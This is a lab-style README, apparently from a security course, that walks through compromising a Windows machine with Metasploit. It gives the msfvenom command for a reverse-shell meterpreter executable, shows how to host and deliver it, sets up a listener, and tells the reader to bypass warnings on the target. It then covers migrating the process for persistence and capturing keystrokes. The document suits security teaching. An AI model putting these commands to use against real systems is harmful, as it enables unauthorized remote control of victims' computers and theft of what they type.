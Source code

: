 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:
![image](https://github.com/lokeshnarayanan/Compromising-windows-using-Metasploit/assets/119393019/3180b3e5-f3bd-41f9-8c6d-2c25baafaac9)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT

![image](https://github.com/lokeshnarayanan/Compromising-windows-using-Metasploit/assets/119393019/622458d3-63ea-46e8-88b0-d7219fc479d0)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/lokeshnarayanan/Compromising-windows-using-Metasploit/assets/119393019/366238ad-34ae-4265-b0ab-21cee616b356)

Start apache server
sudo systemctl apache2 start

![image](https://github.com/lokeshnarayanan/Compromising-windows-using-Metasploit/assets/119393019/339c83fd-93a4-4e02-9c24-1c5b2aca5720)


Check the status of apache2

![image](https://github.com/lokeshnarayanan/Compromising-windows-using-Metasploit/assets/119393019/b8232804-5954-4af7-86e3-a57fe55dc83a)

Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler

![image](https://github.com/lokeshnarayanan/Compromising-windows-using-Metasploit/assets/119393019/f4f14403-d3ab-41b3-a48a-0184d37559a1)

set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![image](https://github.com/lokeshnarayanan/Compromising-windows-using-Metasploit/assets/119393019/b811cfb4-582a-4f64-8e85-6ae347b4095e)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/lokeshnarayanan/Compromising-windows-using-Metasploit/assets/119393019/905f45f4-d48b-4104-9908-5c56a22b8607)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/lokeshnarayanan/Compromising-windows-using-Metasploit/assets/119393019/52c7c7d0-03cb-40fd-9fc8-e8999e8ed7b0)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![image](https://github.com/lokeshnarayanan/Compromising-windows-using-Metasploit/assets/119393019/e25c5d85-fc21-4e1d-b71b-ed05c27f9fe7)


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/lokeshnarayanan/Compromising-windows-using-Metasploit/assets/119393019/6878eae1-a7d6-46a8-b2c8-d7d39039f52a)

keyscan_dump	Shows the keystrokes captured so far

![image](https://github.com/lokeshnarayanan/Compromising-windows-using-Metasploit/assets/119393019/fdf08ea3-e631-48dc-a00c-7ce64c588ad9)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
